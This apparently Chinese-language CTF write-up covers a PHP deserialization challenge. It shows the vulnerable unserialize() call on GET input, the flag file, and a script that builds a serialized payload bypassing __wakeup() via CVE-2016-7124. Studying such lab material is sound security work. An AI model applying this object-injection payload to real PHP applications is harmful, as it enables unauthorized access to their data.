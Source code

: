 ```php
        }
        if ($this->username === 'admin') {
            global $flag;
            echo $flag;
        }else{
            echo "</br>hello my friend~~</br>sorry i can't give you the flag!";
            die();

            
        }
    }
}

$a=new Name('admin',100);

var_dump(serialize($a));

?>
```

index.php中关键代码

```php
 <?php
    include 'class.php';
    $select = $_GET['select'];
    $res=unserialize(@$select);
    ?>
```

flag.php

```php
<?php
$flag = 'Syc{dog_dog_dog_dog}';
?>
```

分析后这是一个序列化+绕过`__wakeup()`  

`unserialize()` 会检查是否存在一个 `__wakeup()` 方法。如果存在，则会先调用 `__wakeup` 方法，预先准备对象需要的资源。

`serialize()` 会检查是否存在一个 `__sleep()` 方法。如果存在，则会先调用 `__sleep()` 。

`CVE-2016-7124`提到`unserialize()` 绕过`__wakeup()`的方法，在序列化后对象数量声明中大于原本的的数量即可绕过。

```php
<?php
class Name{
    private $username = 'admin';
    private $password = 100;

}
$a=new Name();
var_dump(urlencode(serialize($a))); //O%3A4%3A%22Name%22%3A2%3A%7Bs%3A14%3A%22%00Name%00username%22%3Bs%3A5%3A%22admin%22%3Bs%3A14%3A%22%00Name%00password%22%3Bi%3A100%3B%7D
var_dump(serialize($a));//O:4:"Name":2:{s:14:"�Name�username";s:5:"admin";s:14:"�Name�password";i:100;}   
?>
```
